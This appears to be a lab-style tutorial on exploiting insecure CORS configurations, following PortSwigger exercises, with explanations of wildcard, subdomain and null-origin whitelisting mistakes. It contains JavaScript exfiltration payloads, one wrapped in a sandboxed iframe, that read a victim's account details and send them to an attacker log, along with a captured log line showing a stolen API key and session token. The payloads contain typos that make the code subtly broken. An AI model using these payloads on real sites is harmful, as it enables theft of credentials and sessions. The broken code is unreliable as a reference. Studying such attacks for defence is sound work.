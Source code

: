 # Exploiting CORS

Assume a website has insecure CORS configuration that trusts all origins, attacker can craft a malicious HTML to lure the victim to click and extract sensitive information and sent to attacker.

Here is one example from portswigger:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A login user visit `/accountDetails` is allowed to get a respond of the user details including apikey and sessions.

If we add any origin for testing, the response will show the origin is allowed.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

With this, it has no restriction of javascript origin, we can craft a malicious html page embedded with javascript to steal the respond in `accountDetails`

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.onload = function(){
        location('/log?key=' + xhr.respondTexte;)
    }
    xhr.open('GET','<vulnerablesites>/accountDetails",true);
    xhr.withCredentials = true;
    xhr.send();
</script>
```

After the victim click the link and visit the sites

{% code overflow="wrap" %}
```
10.0.3.227 X-X-X X:X:X:X +0000 "GET /log? key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22: %20%2268GUX0NAnVliC8aazO5LXijOQTPQQBWG%22,%20%20%22sessions%22:%20[%20%20%20%20%22TtWQVO4D3gfH7Ye50DdMGNpo7EfBkysI%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0.0 Safari/537.36
```
{% endcode %}

The logs will store the api keys

### Error parsing Origin headers

Some applications have a whitelisted origins, When a CORS request being made, the server origin is compared to the whitelist, if the origin appears on the whitelists then it reflected in the `Access-Control-Allow-origin` header so that the access is granted.

E.g.

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Some mistakes when implementing CORS origin whitelists is some organization decide to allow access from all their subdomains e.g. **\*normal.sites .**&#x20;

An attacker might be able to gain access by registering the domain:

hackerman-normal.sites

### Whitelisted null origin value

The specification for the Origin header supports the value `Null` . Browser might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects
* Requests from seralized data
* Request using the `file:` protocol
* Sandboxed cross-origin requests

One of the technique is using iframe sandbox, it isolated the `iframe` freom the rest of the web context, stripping away any traditional origin and set the origin to `null`&#x20;

We modified the previous payload to include a iframe:

```javascript
<iframe sandbox="allow-scrtips allow-top-nagivation allow-forms" scriptdoc="
<script>
    var xhr = new XMLHttpRequest();
    xhr.onload = function(){
        location('/log?key=' + xhr.respondTexte;)
    }
    xhr.open('GET','<vulnerablesites>/accountDetails",true);
    xhr.withCredentials = true;
    xhr.send();
</script>">
</iframe>
```

With this new payload, it can effective send a null origin iframe that trigger the javascript.

### Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship.

If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

### Author

Ik0nw

###
